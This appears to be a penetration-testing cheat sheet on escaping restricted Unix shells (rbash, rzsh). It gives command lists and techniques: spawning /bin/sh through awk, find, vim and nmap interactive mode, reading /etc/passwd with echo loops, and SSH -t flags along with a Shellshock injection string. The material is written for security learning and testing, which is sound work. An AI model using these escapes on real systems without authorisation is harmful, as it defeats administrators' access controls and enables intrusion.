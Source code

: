 ```yaml
---
title: Restricted Shell (rbash, rzsh) Bypass
description: The restricted shell is a Unix shell that restricts some of the capabilities available to an interactive user session.
tags:
    - SSH
refs:
    - https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
date: 2023-03-23
draft: false
---
```


After logged in a shell, sometimes we faced the error such as below when executing commands.

```bash
-rbash: cd: restricted
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
```

The target system uses a **restricted shell** so we may not be able to execute commonly used commands e.g. `ls`, `cd`, etc.   
We need to bypass the restriction First.

<br />

## Command Enumeration

First check what commands can we execute.  
Try running varied commands.

```sh
awk 'BEGIN {system("/bin/sh")}'
bash
cat
cd
cp
declare
echo
echo $PATH
echo $SHELL
echo /usr/bin/*
echo /home/<username>/bin/*
echo "bash -i" | tee rbypass.sh
env
export
find
find / -name foobar -exec /bin/sh \;
ftp
git
less
ls
nano
nmap
printenv
printf
# List all files in current directory
printf '%s\n' *(D)
pwd
set
sudo
sudo -l
tar
touch
vi
vim
whereis
which
whoami
zip

# Programming languages
perl
php
python
python2
python3
python3.x
ruby

# Commands with absolute path
/bin/bash
/bin/sh
/usr/bin/cat
/usr/bin/ls


# Special characters
>
>>
<
|
&
$
$(whoami)
;
:
'
"
`
```

<br />

## How to Bypass

### Update Environment Variables

If we can execute `export` command and the desired environment variable (**PATH, SHELL**, etc.) is not readonly, we can update variables.

```bash
export SHELL=/bin/bash
export PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

### Autocomplete to List Directories

We can see files and directories in the current directory by inputting the following path and entering **“Tab”** key.

```bash
./.
```

### Copy Shell Command

If we can execute `cp` command, we can copy `/bin/bash` or `/bin/sh` to the current directory.

```bash
cp /bin/bash .
cp /bin/sh .
```

### List/Read Files

If we can use `echo` or `printf` command, we can list all files or read files.

1. **List**

```bash
# List all files
echo /*
echo /.* # list hidden files
echo /home/<username>/*
echo /home/<username>/.* # list hidden files

# List all files in current directory
printf '%s\n' *(D)
```

2. **Read**

```bash
while read line; do echo $line; done < /etc/passwd; echo $line
```

### Nmap

If we can use nmap command, we can escape the restricted shell with the interactive mode.

```bash
nmap --interactive
nmap> !sh
```

### Vi/Vim Editor

If we can use `vi` or `vim` command, we can update the SHELL variable in the vi/vim editor.

```bash
vim # or vi

# In vi/vim editor
:set shell=/bin/bash
:shell
```

### SSH Flags

```bash
# -t: Force pseudo-terminal allocation
ssh <user>@<ip> -t "/bin/bash"
ssh <user>@<ip> -t "/bin/sh"
ssh <user>@<ip> -t "bash --noprofile"
# Shellshock
ssh <user>@<ip> "() {:;}; /bin/bash"
```

If we can enter the shell, run tab-completion by pushing **“Tab”** key.  
We may be able to retrieve commands available.